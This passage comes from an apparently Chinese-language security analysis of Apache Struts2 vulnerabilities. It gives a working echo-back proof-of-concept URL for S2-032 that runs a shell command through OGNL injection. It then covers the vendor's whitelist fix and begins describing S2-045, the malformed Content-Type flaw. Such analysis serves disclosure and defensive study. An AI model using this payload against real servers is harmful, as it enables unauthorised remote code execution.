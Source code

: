 而命令参数则利用上下文对象`context`中`parameters`属性去读取。

综上，可回显PoC如下：
```
/xxxx.action?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,
#res=@org.apache.struts2.ServletActionContext@getResponse(),
#w=#res.getWriter(),
#w.println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream())),
#w.flush(),
#w.close&cmd=uname -a
```

<img src="pic/struts2_s2-032_1.png">

## 漏洞修复

通过版本比对，可以看到在Struts2 `2.3.28.1`版本中，对`method:`前缀后面的字符串进行了字符白名单校验，将不在白名单里的字符给去掉。新版本的关键修复代码如下图：

<img src="pic/struts2_s2-032_10.png">

<a name="s2-045"></a>
## S2-045

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-045

影响版本：`Struts 2.3.5`-`Struts 2.3.31`, `Struts 2.5`-`Struts 2.5.10`

## 漏洞复现与分析

从漏洞公告可获悉，如果`Content-Type`请求头的值表示一个上传类型，但值是无效的，且是一个精心构造的OGNL表达式时，`Jakarta Multipart parser`这个解析器在对`Content-Type`处理的过程中，会触发异常，在处理异常信息的时候会计算OGNL表达式，从而造成远程代码执行。
